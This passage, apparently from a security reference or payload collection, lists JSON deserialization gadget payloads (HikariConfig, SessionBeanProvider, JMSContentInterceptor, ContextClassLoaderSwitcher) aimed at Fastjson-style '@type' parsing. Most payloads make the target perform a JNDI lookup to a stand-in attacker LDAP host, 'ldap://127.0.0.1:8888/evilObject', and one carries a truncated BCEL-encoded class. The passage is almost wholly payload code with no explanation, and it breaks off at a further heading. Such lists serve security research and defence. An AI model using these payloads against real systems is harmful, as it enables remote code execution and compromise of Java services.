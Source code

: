  - HikariConfig

```java
{
	"@type": "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig",
	"metricRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - HikariConfig

```java
{
	"@type": "org.apache.hadoop.shaded.com.zaxxer.hikari.HikariConfig",
	"healthCheckRegistry": "ldap://127.0.0.1:8888/evilObject"
}
```

 - SessionBeanProvider

```java
{
	"@type": "org.apache.commons.proxy.provider.remoting.SessionBeanProvider",
	"jndiName": "ldap://127.0.0.1:8888/evilObject",
	"Object": "su18"
}
```

 - JMSContentInterceptor

```java
{
	"@type": "org.apache.cocoon.components.slide.impl.JMSContentInterceptor",
	"parameters": {
		"@type": "java.util.Hashtable",
		"java.naming.factory.initial": "com.sun.jndi.rmi.registry.RegistryContextFactory",
		"topic-factory": "ldap://127.0.0.1:8888/evilObject"
	},
	"namespace": ""
}
```

 - ContextClassLoaderSwitcher

```java
{
	"@type": "org.jboss.util.loading.ContextClassLoaderSwitcher",
	"contextClassLoader": {
		"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
	},
	"a": {
		"@type": "$$BCEL$$l$8b$I$A$A$A$A$A$AmS$ebN$d4P$...$A$A"
	}
}
```

 - OracleManagedConnectionFactory
